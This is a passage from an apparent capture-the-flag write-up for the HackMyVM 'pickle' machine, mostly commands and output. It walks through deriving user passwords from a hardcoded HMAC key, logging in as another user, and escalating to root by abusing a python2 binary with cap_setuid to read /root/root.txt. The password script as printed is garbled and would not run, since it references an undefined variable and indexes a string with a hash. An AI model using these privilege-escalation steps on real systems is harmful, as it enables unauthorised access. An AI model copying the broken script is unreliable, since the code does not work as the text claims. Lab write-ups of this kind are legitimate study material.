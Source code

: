     key = "dpff43f3p214k31301" 
    raw = user["lucas"] + key + socket.gethostbyname(socket.gethostname()) 
    hashed = hmac.new(key, raw, hashlib.sha1) 
    if(key[hashed.hexdigest()] == hashed): 
        print(base64.b64encode(hashed.digest().encode("base64").rstrip("\n"))) 

And if we run we see that we have lucas password. 

    root@0xEEX75:~/hackmyvm/pickle# python reset.py 
    YTdYYTB1cDFQOTBmeEFwclVXZVBpTCtmakx3PQ== # Luca's password 

Let's see if there is any user other than lucas in the target system. 
   
    lucas@pickle:/opt/project$ ls /home 
    lucas mark 

There is indeed mark, let's try with mark to get the password. 

    import hashlib 
    import requests 
    import socket 
    import base64 
    import hmac 

    key = "dpff43f3p214k31301" 
    raw = user["mark"] + key + socket.gethostbyname(socket.gethostname()) 
    hashed = hmac.new(key, raw, hashlib.sha1) 
    if(key[hashed.hexdigest()] == hashed): 
        print(base64.b64encode(hashed.digest().encode("base64").rstrip("\n"))) 
        
And if we run we see that we have mark password. 

    # python reset.py 
    SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== # Mark's password 
    
    lucas@pickle:/opt/project$ su - mark 
    Password: SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== 
    mark@pickle:~$ cat user.txt 
    e25fd1[...SNIP...] 

# Mark > Root 

Root is not very complicated, just look for files that support the capabilities. 

    mark@pickle:~$ getcap -r / 2>/dev/null 
    /home/mark/python2 = cap_setuid+ep 
    /usr/bin/ping = cap_net_raw+ep 
    
You just need to run python and use the os module to run a command. 

    mark@pickle:~$ /home/mark/python2 
    /home/mark/python2 
    Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
    [GCC 8.3.0] on linux2 
    Type "help", "copyright", "credits" or "license" for more information. 
    >>> import os 
    >>> os.setuid(0) 
    >>> os.system('cat /root/root.txt') 
    os.system('cat /root/root.txt') 
    7a32c9739cc63ed983ae01af2577c01c

